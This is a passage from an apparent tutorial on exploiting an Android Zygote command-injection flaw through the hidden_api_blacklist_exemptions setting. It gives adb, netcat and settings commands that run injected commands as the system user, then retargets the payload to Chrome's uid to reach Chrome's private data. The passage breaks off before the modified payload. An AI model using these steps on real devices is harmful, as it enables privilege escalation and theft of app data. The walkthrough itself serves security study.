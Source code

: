 Great! We can see the output of the `id` command, then `pwd`, which shows that we indeed entered the _Settings_ app directory, and the output of `ls -al` in that directory.

Something very important: we saw this output in a terminal on **our** computer. This means we are _extracting_ information in a very basic way, but at least we have a window between the app's _sandbox_ and our machine.

So far we have a process through which we can inject commands and see their output (exploitation process):

1. Modify the file with the _payload_ with the command we want to execute, redirecting its output to `nc 127.0.0.1 31337`.  
   1.1. Upload the file to the emulator:  
   ```bash
   adb push payload_1.txt /data/local/tmp/
   ```
&nbsp;
2. In a terminal on the computer, put _netcat_ listening on port 31337:  
   ```bash
   adb shell nc -l -p 31337
   ```
&nbsp;
3. In the `adb` shell, execute the `settings` command to trigger the exploit:  
   ```bash
   settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload_1.txt)"
   ```
   &nbsp;
4. Set the variable `hidden_api_blacklist_exemptions` to `null`:  
  
   ```bash
   settings put global hidden_api_blacklist_exemptions null
   ```
&nbsp;

**Note:** In our experience, running the `settings` command to exploit the vulnerability does not always produce output; sometimes it must be tried again to work. Also, after each exploitation attempt, it is important to go to the phone screen and open/close any application to allow Zygote to _resync_.

### Becoming Any Application

We can already become _system_ (user 1000), but what about other applications? Does our exploit work the same?

The first thing is to find out which user belongs to which application so we can assign it in the injected (Zygote) command. We found that `dumpsys` works for this task. Finding out Chrome’s user would look like this:


```bash
generic_x86_arm:/ $ dumpsys package com.android.chrome | grep userId=                               
    userId=10128
generic_x86_arm:/ $ 
```

We must modify our _payload_ by changing the `--setuid` and `--setgid` arguments to `10128` and change the directory we list to Chrome's directory, in our case `/data/data/com.android.chrome/`. After the changes, our payload would look like this:
